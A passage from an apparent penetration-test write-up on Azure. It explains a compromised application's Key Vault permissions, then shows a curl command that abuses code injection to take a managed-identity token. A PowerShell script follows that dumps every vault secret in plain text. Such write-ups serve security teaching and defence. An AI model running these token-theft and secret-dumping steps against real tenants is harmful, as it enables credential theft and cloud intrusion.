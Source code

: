 This script queries the Azure Management REST API to retrieve the privileges that the ‘staging-vaadatalab’ application has on the ‘keyvaultvaadatalab1’ Key Vault.
#### Actions

Actions define the operations that the client is authorised to perform on a resource.

In our case, the action specified is **`Microsoft.KeyVault/vaults/read`**; this means that the user has the right to read the metadata of an Azure Key Vault. This generally includes operations such as retrieving information about the vault (name, location, tags, etc).
#### DataActions

DataActions are actions specific to the data in the key vault. They define the operations authorised on the secrets and keys stored in the key vault. In this example, 4 dataActions are defined:

- **`Microsoft.KeyVault/vaults/keys/read`**: Allows the metadata of keys stored in the vault to be read.
- **`Microsoft.KeyVault/vaults/keys/decrypt/action`**: Allows the keys stored in the vault to be decrypted.
- **`Microsoft.KeyVault/vaults/secrets/readMetadata/action`**: Allows the metadata of secrets stored in the key vault to be read.
- **`Microsoft.KeyVault/vaults/secrets/getSecret/action`**: Authorises the recovery of secret values stored in the key vault.
#### Retrieving the secrets

This will allow us to retrieve the value of all the secrets in the Key Vault and analyse what we can do with them.

But first, we need to retrieve another specific **`access_token`** to perform actions on the data in the Key Vault.

To do this, we again exploit code injection on the application to retrieve an **`access_token`** with the following command:

```powershell
curl "<MSI_ENDPOINT>?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:"IDENTITY_HEADER"
```

We can now list all the secrets in the Key Vault using the following PowerShell script:

```powershell
# List all secrets in the keyvault
$access_token = "<access_token_management>"
$keyvault_access_token = "<access_token_keyvault>"
Connect-AzAccount -AccessToken $access_token -KeyVaultAccessToken $keyvault_access_token -AccountId 3329fea7-642e-4c09-b1ad-d8edbe140267

$KeyVault = Get-AzKeyVault
$SubscriptionID = (Get-AzSubscription).Id
$ResourceGroupName = $KeyVault.ResourceGroupName
$KeyVaultName = $KeyVault.VaultName

$secrets = Get-AzKeyVaultSecret -VaultName $keyVaultName

foreach ($secret in $secrets) {
    $secretName = $secret.Name
    $secretValue = (Get-AzKeyVaultSecret -VaultName $keyVaultName -Name $secretName -AsPlainText)
    Write-Output "$secretName : $secretValue"
} 
```
